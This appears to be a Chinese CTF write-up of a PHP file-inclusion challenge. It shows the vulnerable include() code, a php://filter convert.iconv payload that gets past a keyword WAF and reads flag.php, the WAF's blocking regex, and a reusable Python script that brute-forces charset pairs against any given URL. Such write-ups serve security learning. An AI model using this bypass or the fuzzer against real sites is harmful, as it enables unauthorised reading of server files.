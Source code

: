 ```yaml
---
title: 6-9做题记录
categories: CTF
description: 深入文件包含以及伪协议
abbrlink: 87a3a3ea
---
```


> # 攻防世界web-file_include(江苏工匠杯/泰山杯原题)

关键:`convert.iconv* 绕过`

源码:

```php
<?php
highlight_file(__FILE__);
    include("./check.php");
    if(isset($_GET['filename'])){
        $filename  = $_GET['filename'];
        include($filename);
    }
?>
```

伪协议读取文件,但waf将`php://filter/read=convert.base64-encode/resource=index.php`中某些关键词过滤了,因此要绕过!

![image-20240609110641816](https://gitee.com/eviden/img/raw/master/image-20240609110641816.png)

![image-20240609110714891](https://gitee.com/eviden/img/raw/master/image-20240609110714891.png)

最终fuzz得到是过滤了php这个过滤器以及`string`关键字.

这导致我们常规的伪协议无法读取文件

##### 利用 convert.iconv.*

这个过滤器需要`php`支持 `iconv` ，而`iconv`是默认编译的。使用`convert.iconv.*`过滤器等同于用`iconv()`函数处理所有的流数据。

具体可看php官方给出的编码种类.[PHP： 支持的字符编码 - 手册](https://www.php.net/manual/en/mbstring.supported-encodings.php)

```
UCS-4*
UCS-4BE
UCS-4LE*
UCS-2
UCS-2BE
UCS-2LE
UTF-32*
UTF-32BE*
UTF-32LE*
UTF-16*
UTF-16BE*
UTF-16LE*
UTF-7
UTF7-IMAP
UTF-8*
ASCII*
EUC-JP*
SJIS*
eucJP-win*
SJIS-win*
ISO-2022-JP
ISO-2022-JP-MS
CP932
CP51932
BASE64
```

convery.iconv.*的使用有两种方法:

```php
convert.iconv.<input-encoding>.<output-encoding> 
or 
convert.iconv.<input-encoding>/<output-encoding>
```



最终payload:`http://61.147.171.105:52243/?filename=php://filter//convert.iconv.SJIS*.UCS-4LE*/resource=flag.php`

最后看看waf怎么写的,以后留着有用!

```php
<?php
//文件包含waf
if ($_GET["filename"]) {
    
    $filename = $_GET["filename"];

    $pattern = "/base|be|encode|print|zlib|quoted|write|rot13|read|string/i";
    if (preg_match($pattern, $filename)) {
        die("do not hack!");
    }
}
?>
```

脚本:

```python
import argparse
flag=''''                                                                                                                                           
       @@@@ @@  @@   @@@@   @@@@  @@@@@  @@@@  @@@@  @@@@ @@@@@ @@  @@  @@     
      @@@@@ @@  @@  @@@@@  @@@@@  @@@@@ @@@@@ @@@@@ @@@@@ @@@@@ @@  @@  @@     
      @@    @@  @@ @@@    @@@     @@    @@    @@    @@    @@    @@  @@  @@     
      @@@@  @@  @@ @@     @@      @@@@@ @@@@  @@@@  @@@@  @@@@@ @@  @@  @@     
       @@@@ @@  @@ @@     @@      @@@@@  @@@@  @@@@  @@@@ @@@@@ @@  @@  @@     
         @@ @@  @@ @@@    @@@     @@       @@    @@    @@ @@    @@  @@  @@     
      @@@@@ @@@@@@  @@@@@  @@@@@  @@@@@ @@@@@ @@@@@ @@@@@ @@    @@@@@@  @@@@   
      @@@@   @@@@    @@@@   @@@@  @@@@@ @@@@  @@@@  @@@@  @@     @@@@   @@@@   
'''
charsets = [
    "UCS-4*",
    "UCS-4BE",
    "UCS-4LE*",
    "UCS-2",
    "UCS-2BE",
    "UCS-2LE",
    "UTF-32*",
    "UTF-32BE*",
    "UTF-32LE*",
    "UTF-16*",
    "UTF-16BE*",
    "UTF-16LE*",
    "UTF-7",
    "UTF7-IMAP",
    "UTF-8*",
    "ASCII*",
    "EUC-JP*",
    "SJIS*",
    "eucJP-win*",
    "SJIS-win*",
    "ISO-2022-JP",
    "ISO-2022-JP-MS",
    "CP932",
    "CP51932",
    "BASE64"
]
# 创建解析器
parser = argparse.ArgumentParser(description='Process some parameters.')

# 添加参数
parser.add_argument('--url', type=str, default='http://61.147.171.105:62409/', help='The base URL, e.g., http://61.147.171.105:62409/')
parser.add_argument('--char', type=str, required=True, help='Parameter name, e.g., filename')
parser.add_argument('--file', type=str, required=True, help='The file you want to read, e.g., flag.php')
args = parser.parse_args()
url = args.url+'?'
char = args.char
you_want_to_read = args.file
# url='http://61.147.171.105:62409/?'
# char=input('filename:')#传参名字  比如?filename=
# you_want_to_read=input('flag.php:')
# payload=f'{url}{char}=php://filter//convert.iconv.{key1}.{key2}'
# print(payload)
# combinations = list(itertools.combinations(charsets, 2))
maxlen=1160
for i in range(len(charsets)):
    for j in range(len(charsets)):
        if i==j:
            continue
        key1, key2 = charsets[i],charsets[j]
        payload=f'{url}{char}=php://filter//convert.iconv.{key1}.{key2}/resource={you_want_to_read}'
        # print(payload)
        import requests
        re=requests.get(payload)
        # print(re.status_code)
        if len(re.text)>maxlen:
            maxlen=len(re.text)
            # print(payload)
            print(re.text)
            print(flag)

```

